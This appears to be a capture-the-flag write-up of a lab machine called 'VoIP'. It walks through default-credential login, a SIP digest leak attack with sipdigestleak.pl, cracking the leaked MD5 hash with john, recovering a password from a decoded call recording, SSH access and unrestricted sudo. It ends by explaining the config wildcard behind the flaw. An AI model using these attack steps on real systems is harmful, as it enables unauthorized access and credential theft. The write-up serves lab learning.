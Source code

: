 # VoIP
### Enumeration
Ports 22, 80, 8000 are open.

##### 80
"Voip Manager" login portal.

##### 8000
Another login portal although not immediately obvious what it is for. The credentials `admin:admin` get us in. It appears to also be a VoIP management system. We can see some version information:

```
Hardware version: 3302BC
VOIP: v2.0
```

We find some users:

```
William:
ID-2983

Emma:
ID-3029

Voiper:
ID-1462

John:
ID-2174

Olivia:
ID-9811

Ava:
ID-2111

Rocky:
Disabled

Noah
Disabled
```

##### 5060
Port 5060 appears to be open, but can't get it to respond to anything basic.

It turns out that 5060 is vulnerable to a [SIP digest leak attack](https://resources.enablesecurity.com/resources/sipdigestleak-tut.pdf). We can use the [sippts toolkit](https://github.com/linuxmaniac/sippts) (in particular, the `sipdigestleak.pl` script) to perform the exploit:

```shell-session
$ perl sipdigestleak.pl -h 192.168.55.156
[+] Connecting to 192.168.55.156:5060
[+] Sending INVITE 2983 => 100
[-] 180 Ringing
[-] 200 OK
[+] Sending ACK
[+] Waiting for the BYE message
[-] BYE received
[+] Sending 407 Proxy Authentication Required
[-] Auth: Digest username="adm_sip", uri="sip:127.0.0.1:5060", password="074b62fb6c21b84e6b5846e6bb001f67", algorithm=MD5

$ echo 074b62fb6c21b84e6b5846e6bb001f67 -n > hash.txt

$ hashid -j hash.txt
--File 'hash'--
Analyzing '074b62fb6c21b84e6b5846e6bb001f67'
[+] MD2 [JtR Format: md2]
[+] MD5 [JtR Format: raw-md5]
[+] MD4 [JtR Format: raw-md4]
...

$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
passion          (?)     
1g 0:00:00:00 DONE (2022-04-02 19:18) 100.0g/s 76800p/s 76800c/s 76800C/s jeffrey..james1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

We use `--format=raw-md5` since `sipdigestleak.pl` tells us the algorithm is MD5. We could have continued with other forms of MD5 if we didn't manage to crack the password using this format.

Ultimately, we have the credentials `adm_sip:passion`, which we can use to login to the `Voip Manager` portal.

If we look at `/cdr.php`, we see there's a row with `raw` in the `Record` column, that we can click to download a file called `2138.raw`.

The file is a VoIP audio capture. According to [this forum thread](https://community.cisco.com/t5/ip-telephony-and-phones/how-to-save-rtp-streams-from-wireshark-and-play-it-using-an/td-p/1966791), we can decode the audio using Audacity. We use `File > Import > Raw Data`. We can get the information we need for the import dialog from `/streams.php`. We see `8000 Hz` is the sample rate, and we see the string `pcm_mulaw`, indicating `U-Law` is the encoding. Finally, we specify that there is one channel (mono audio).

The transcript of the audio is:

```
Your password has been changed to `Password1234`, where 'P' is capital.
```

### Foothold
Trying this as the SSH password for all the users we found on the other webservice, we eventually succeed with `voiper:Password1234`.

### Privilege Escalation
Running `sudo -l`, we see we can execute anything as sudo.

### Post-exploit
We should have noted this section of the VoIP server config:

```xml
<!-- Dynamnic response generator -->  
  
 <recv response="*">  
	 <action>  
		 <ereg regexp=“^[A-Za-z0-9_.]+$" search_in="response" assign_to="status"/>  
		 <strcmp assign_to="result" variable="1" value=“status" />  
		 <test assign_to="status" variable="result" compare="equal" value="0.0"/>  
	 </action>  
 </recv>  
 <send>  
 <![CDATA[  
 $result  
 ]]>  
 </send>
```

Specifically, the wildcard in `<recv response="*">`, which indicates that we could respond to the `BYE` message from the VoIP server with a `407 Proxy Auth Required` instead of `ACK`. This is what makes the server vulnerable to the digest leak attack.